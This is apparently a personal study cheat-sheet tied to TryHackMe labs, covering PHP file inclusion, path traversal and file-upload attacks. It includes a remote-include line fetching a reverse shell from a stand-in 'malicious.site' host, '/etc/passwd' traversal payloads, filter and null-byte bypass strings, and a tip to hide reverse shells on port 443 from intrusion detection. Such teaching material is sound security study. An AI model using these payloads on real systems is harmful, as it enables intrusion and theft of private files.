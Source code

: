 # Files/Paths exploits

> It advised to not use potential vulnerable forms to send data, as the data effectively send might not be what you entered.<br>
> Use tools such as [BurpSuite](/cyber/exploitation/web/burpsuite/index.md), or `curl`.

<hr class="sl">

## File inclusion

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "lang/$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.cgi%00.php" // include xxx.cgi
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (avatar.png)
// as your avatar, then
include "lang/../uploads/avatar.png.php"
```

See Path traversal.

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sr">

## Path/directory traversal

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd`/`windows/win.ini`
* ...

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.
</div><div>

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.

**Bypass filters**: if you know that a filter will replace a string, then you may create a string that will do what you want AFTER being filtered, such as `....//`. If the filter is removing `../`, then after filtering `..` and `/` will be concatenated, giving us back `../`.

If there are client-side filtering, you may use [BurpSuite](/cyber/exploitation/web/burpsuite/index.md), or `curl`

```bash
$ curl URL/vulnerable.php -d 'file=/etc/flag1' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sl">

## File upload

<div class="row row-cols-md-2"><div>

A hacker could try to upload a script, and then find a way to run it. The script usually open a **reverse shell**, meaning a shell on the target, that can be access from the hacker computer.

**Bypass filters**

* Try `xxx.png.php` to bypass stupid filters
* Try the null byte `xxx.php%00.png` <small>(PHP < 5.3.4)</small>
* Try intercepting the request, changing the content type, if the server is only checking the content-type.

> Do not use public/folders available to the user, if it's not needed. If you still do, do not use common names that could be found with forced browsing.
</div><div>

**Reverse shell**

To avoid alerting IDS, the reverse shell should use a port that would not be suspected such as `443` (HTTPS).
</div></div>
